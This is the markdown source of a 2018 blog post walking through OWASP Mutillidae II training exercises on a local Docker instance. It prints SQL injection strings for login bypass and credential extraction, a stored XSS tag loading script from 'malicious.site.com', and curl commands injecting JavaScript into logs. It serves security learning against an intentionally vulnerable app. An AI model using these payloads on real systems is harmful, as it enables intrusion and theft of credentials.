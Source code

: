 ```yaml
---
draft: false
title: "Learning web app secuiry with OWASP Mutillidae II - part 1"
slug: "mutillidae-ii-part-1"
date: "2018-01-23T14:41:50+01:00"
categories:
  - security
  - learning
tags:
    - security
    - owasp
    - mutillidae
    - pentesting
cover:
  image: /img/2018/001/owasp_full_logo.png
  caption: "OWASP logo. Source: [secplicity.org](https://www.secplicity.org/2017/04/12/owasp-top-10-web-application-security-update/)"
  style: normal
---
```

# iNSTALLATION

Run `nowasp` container:
```bash
docker run -p 8888:80 -p 3306:3306 citizenstig/nowasp
```

Go to [http://localhost:8888/](http://localhost:8888/), and build the DB.


# eXCERCICES:

## OWASP 2013

### A1 - Injection (SQL) - SQLi Extract data - User info

Submit the form with such query in the `Name` field:
```sql
admin'-- AND 'password='password'
```

Response should contain:
```html
Username=admin
Password=adminpass
Signature=g0t r00t?
```

### A1 - Injection (SQL) - SQLi Bypass authentication - Login

You can use the same query in the `Name` field:
```sql
admin'-- AND 'password='password'
```

After submitting the query you should see that you're logged in as...:
```
Logged In Admin: admin (g0t r00t?)
```

### A1 - Injection (SQL) - SQLi Insert Injection - Add to your blog


*Stored Cross-Site Scripting*
```html
<script src="http://malicious.site.com/bad.js"></script>
```
Once saved, check your browser's Network requests using e.g. Developer tools:

{{< gallery title="Stored Cross-Site Scripting" >}}
{{< figure link="/img/2017/002/OWASP-2013-A1-Add_to_your_blog-Stored_Cross-Site_Scripting.png" thumb="-thumb" size="1311x204" caption="Stored Cross-Site Scripting" >}}
{{< /gallery >}}

get MySQL version:
```sql
'+SUBSTRING(@@version,1,10)+'
```

Red herrings: queries that don't fail but don't give much info back:
{{< highlight sqk "linenos=table,hl_lines=14,linenostart=1" >}}
'+(SELECT IF(1=1,'true','false'))+'
'+(SELECT password FROM accounts WHERE username="root")+'
'+SUBSTRING((SELECT password FROM accounts WHERE username="root"),1,10)+'
'+(SELECT table_name FROM information_schema.tables WHERE table_schema = "nowasp.accounts")+'
'+(SELECT column_name FROM information_schema.columns WHERE table_schema = "nowasp.accounts")+'
'+SUBSTRING(SELECT table_name, column_name FROM information_schema.columns WHERE table_schema = "nowasp.accounts",1,50)+'
'+SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_name="accounts"),1,50)+'
aaa', now()); SELECT * FROM accounts; --
aaa', IF(1=1,'true','false'));#
aaa', IF(1=1, SELECT * FROM members, 'false'));#
'+ (SELECT password FROM accounts WHERE login='admin' ) +'
'+(SELECT password FROM members WHERE login="admin")+'
'+(SELECT IF(1=1,'true','false'))+'
admin'-- AND SELECT * FROM accounts;
{{< / highlight >}}


### A1 - Injection (SQL) - SQLi Insert Injection - Register for an Account

HTMLi - 
add this to the registration signature:
```html
<CANARY={}""()'';#$--/>1
```

or you can use it to plant some XSS:
```html
<CANARY={}""()'';#$--/><script>alert("welcome");</script>
```
Then log in as newly created user and see that `1` is visible next to the user name in top menu:

{{< gallery title="HTMLi" >}}
{{< figure link="/img/2017/002/OWASP-2013-A1-Add_to_your_blog-HTMLi.png" thumb="-thumb" size="1419x559" caption="HTMLi" >}}
{{< /gallery >}}

{{< pswp-init >}}


### A1 - Injection (SQL) - SQLi Insert Injection - View Captured Data

Here's one of my favs: `Application Log Injection`:   
You can send a dummy HTTP request with `User-Agent` header containing JS:
```bash
curl "http://localhost:8888/index.php?page=register.php" -H "User-Agent: <script>alert('pwnd with Application Log Injection');</script>"  &> /dev/null
```

or abuse the fact that the `endpoint` part of the URL is interpretted and logged so that we can include JS in it:
```bash
curl "http://localhost:8888/<script>alert('query_param');</script>" &> /dev/null
```

Once you send the request, then go to the [http://localhost:8888/index.php?page=show-log.php](http://localhost:8888/index.php?page=show-log.php) the alert pop-ups will appear.

*NOTES:*

* can you create an account for `root` user???

```bash
curl "http://localhost:8888/index.php?page=capture-data.php&showhints=1" -H "PHPSESSID: 5hdie94hhe7cc50pqsbvujqkb3"
```
